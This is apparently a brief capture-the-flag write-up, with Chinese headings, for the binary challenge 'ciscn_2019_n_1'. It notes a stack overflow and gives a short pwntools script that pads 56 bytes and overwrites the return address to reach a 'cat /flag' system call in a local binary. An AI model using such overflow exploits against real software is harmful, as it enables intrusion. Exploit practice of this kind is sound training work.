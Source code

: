 ```yaml
---
title: "ciscn_2019_n_1"
description: ""
date: 2023-03-29T04:25:55+08:00
lastmod: 2023-03-29T04:25:55+08:00
draft: false
images: []
weight: 999
toc: true
type: docs
---
```


## 0x01 分析

![a8aed923a28e0698e3ed01725f26a47c](images/a8aed923a28e0698e3ed01725f26a47c.png)  

存在溢出点，可以直接覆盖函数返回地址为 `system("cat /flag")`

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
payload = b'a'*56 + p32(0x4006BE)
o.sendline(payload)
o.interactive()
```

![f113b22bf228f5af0121ac0630ce02f2](images/f113b22bf228f5af0121ac0630ce02f2.png)
